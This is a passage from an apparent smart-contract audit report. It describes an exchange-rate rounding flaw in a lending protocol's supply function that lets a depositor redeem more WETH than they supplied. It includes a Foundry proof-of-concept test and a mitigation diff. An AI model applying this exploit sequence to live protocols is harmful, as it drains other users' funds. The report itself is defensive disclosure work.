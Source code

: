 6. The actual amount added to `accountTokens[minter]` and `totalSupply` is 4.99e11. Makin it now 5.09e11.
7. In the same block, The attacker redeems 5e11 tokens that he got, at the up-to-date exchange rate, which is now 2.004477e26 (102.027e18 * 1e18 / 5.09e11).
8. As a result, the attacker got 100.2238e18 WETH, 0.2238 WETH from Bob and Alice.

### Impact

Malicious suppliers can steal from other users.

### PoC

Paste this test into src/test/TestBorrowing.t.sol. This is a test showing the attacker can supply, and get more after redeeming in the same block, at the cost of other users.

```solidity 
    function test_supplyIndex() public {
        uint256 amount = 1e18;
        vm.startPrank(deployer);
        (address token, address lToken) = _supply(amount);
        uint256 maxBorrow = (amount * 70) / 100;
        uint256 initialTokenBalance = IERC20(token).balanceOf(deployer);
        coreRouter.borrow(maxBorrow, token);
        assertEq(
            IERC20(token).balanceOf(deployer) - initialTokenBalance,
            maxBorrow,
            "Should receive correct amount of borrowed tokens"
        );
        vm.stopPrank(); 
        
        vm.roll(7200); //skip 1 day
        address attacker = makeAddr("attacker");
        ERC20Mock(token).mint(attacker, 100e18);
        vm.startPrank(attacker);
        IERC20(token).approve(address(coreRouter), 100e18);
        coreRouter.supply(100e18, token);
        coreRouter.redeem(5e11, payable(lToken));
        assertGt(IERC20(token).balanceOf(attacker), 100e18);
    }
```

### Mitigation

Calculate the mint amount using the up-to-date exchange rate. 

```diff
    function supply(uint256 _amount, address _token) external {
        address _lToken = lendStorage.underlyingTolToken(_token);
        require(_lToken != address(0), "Unsupported Token");
        require(_amount > 0, "Zero supply amount");
        IERC20(_token).safeTransferFrom(msg.sender, address(this), _amount);
        _approveToken(_token, _lToken, _amount);

-       uint256 exchangeRateBefore = LTokenInterface(_lToken).exchangeRateStored();

        require(LErc20Interface(_lToken).mint(_amount) == 0, "Mint failed"); 

+       uint256 exchangeRateBefore = LTokenInterface(_lToken).exchangeRateStored();

        uint256 mintTokens = (_amount * 1e18) / exchangeRateBefore; 
        lendStorage.addUserSuppliedAsset(msg.sender, _lToken); 
        lendStorage.distributeSupplierLend(_lToken, msg.sender); 
        lendStorage.updateTotalInvestment(
            msg.sender, _lToken, lendStorage.totalInvestment(msg.sender, _lToken) + mintTokens
        );
        emit SupplySuccess(msg.sender, _lToken, _amount, mintTokens);
```